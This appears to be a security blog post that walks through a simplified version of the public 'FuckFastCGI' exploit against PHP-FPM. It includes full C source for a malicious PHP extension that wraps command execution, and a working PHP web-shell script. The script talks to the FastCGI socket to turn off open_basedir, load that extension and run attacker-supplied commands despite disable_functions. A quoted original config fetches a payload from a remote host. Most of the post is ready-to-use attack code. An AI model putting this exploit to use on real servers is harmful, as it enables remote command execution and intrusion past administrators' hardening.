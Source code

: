 ```yaml
---
layout: posts
title:  FuckFastCGI made simpler
date:   2023-02-05
categories: stuff
---
```


Let's render unto Caesar the things that are Caesar's, the exploit [FuckFastCGI](https://github.com/w181496/FuckFastcgi) is not mine and is a brilliant one, bypassing `open_basedir` and `disable_functions` by the means of external malicious library loading.

While `open_basedir` can be modified at runtime and turned into `open_basedir = /`, it is not the same regarding `disable_functions`. The latter can only be set in the main `php.ini` and cannot be overriden by a local configuration or programmatically through `ini_set` or `ini_alter`.

To bypass this measure, the exploit sets two other configuration values: `extension` and `extension_dir`. By loading an external library which itself calls the C `system` function, disabled PHP functions are no more a protection.

The C code is as follows (the word `TSRMLS_CC` is commented to make it work with PHP >= 8.0. Uncomment if older):

```c
#include <php.h>
#include "hello.h"

zend_function_entry hello_functions[] = {
    PHP_FE(hello_world, NULL)
    PHP_FE_END
};

zend_module_entry hello_module_entry = {
    STANDARD_MODULE_HEADER,
    PHP_HELLO_EXTNAME,
    hello_functions,
    NULL,
    NULL,
    NULL,
    NULL,
    NULL,
    PHP_HELLO_VERSION,
    STANDARD_MODULE_PROPERTIES,
};

ZEND_GET_MODULE(hello);

PHP_FUNCTION(hello_world) {
    int ret, mode = 1;
    size_t s_len;
    char *s;
    zend_parse_parameters(ZEND_NUM_ARGS() /*TSRMLS_CC*/, "s", &s, &s_len);
    ret = php_exec(mode, s, NULL, return_value);
};

```

This program creates a routine named `hello_world` which is nothing more than a wrapper for `system`, and makes it available to PHP, as soon as the extension is loaded.

In the original exploit, the following values had to be set:

```php
// your extension directory path
$ext_dir_path = '/var/www/app/ext/';

// your extension name
$ext_name = 'hello.so';

// unix socket path or tcp host
$connect_path = 'unix:///var/run/php/php7.2-fpm.sock';

// tcp connection port (unix socket: -1)
$port = -1;

// Don't use this exploit file itself
$filepath = '/var/www/app/index.php';

// your php payload location
$prepend_file_path = 'http://kaibro.tw/gginin2';
```

The principle was to add a dummy `index.php` somewhere on the disk, and to use the directive `auto_prepend_file` to prepend the true payload, which was in turn calling `hello_world`. Problem: executing a different shell command requires a new payload file (in the example, it is a remote payload on a different host. It is made possible thanks to a modification of `allow_url_include`).

Actually, tweaking a little bit the exploit and adapting it based on the code from [here](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy), and we can reduce it to only one PHP and one SO file. Also, the socket path should be updated according to the type of listener:

```php
$client = new FCGIClient("127.0.0.1:9000", -1); // or custom ip:port
//or
$client = new FCGIClient("unix:///var/run/php/php-fpm.sock", -1); //should be a symlink to the real socket file
```

The last part of the script changes, to avoid the need to modify the payload and to repush a file on the disk:

```php
if (isset($_REQUEST['cmd'])) {
    // ---- BEGIN CONFIG
    $ext_dir_path = '/tmp';
    $ext_name = 'hello.so';
    // ---- END CONFIG

    $req = '/'.basename(__FILE__);
    $uri = $req .'?'.'command='.$_REQUEST['cmd'];
    $client = new FCGIClient("127.0.0.1:9000", -1);
    //$client = new FCGIClient("unix:///var/run/php/php-fpm.sock", -1);
    $code = "<?php echo '\$\$';hello_world(\$_REQUEST['command']);?>";
    $php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
    $php_admin_value = "extension_dir=" . $ext_dir_path . "\nextension=" . $ext_name;
    $params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => __FILE__,
        'SCRIPT_NAME'       => $req,
        'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
        'PHP_VALUE'         => $php_value,
        'PHP_ADMIN_VALUE'   => $php_admin_value,
        'SERVER_SOFTWARE'   => 'kaibro-fastcgi-rce',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
        );
    try{
        $resp = $client->request($params, $code);
        $idx = strpos($resp, '$$');
        if ($idx !== false){
            echo substr($resp, $idx+2);
        }
    }
    catch(Exception $e){
        echo "If you used the param cmd and it didn't print anything, please try to refresh";
    }
    if (function_exists("shell_exec")){
        echo shell_exec("date");
    }
    else{
        echo "Nope, shell_exec is disabled";
    }
    phpinfo();
}
```

Instead of loading an external payload, the latter is passed as a stream (`php://input`). The GET argument containing the command is forwarded, and passed to `hello_world`.

As shown below, the command `id` can be executed, although the routines are still marked as disabled.

![php_exec1.png](/assets/res/stuff/php_exec1.png)

![php_exec2.png](/assets/res/stuff/php_exec2.png)

Exploit code (original): [https://github.com/w181496/FuckFastcgi](https://github.com/w181496/FuckFastcgi)\
Exploit code (fork): [https://github.com/BorelEnzo/FuckFastcgi](https://github.com/BorelEnzo/FuckFastcgi)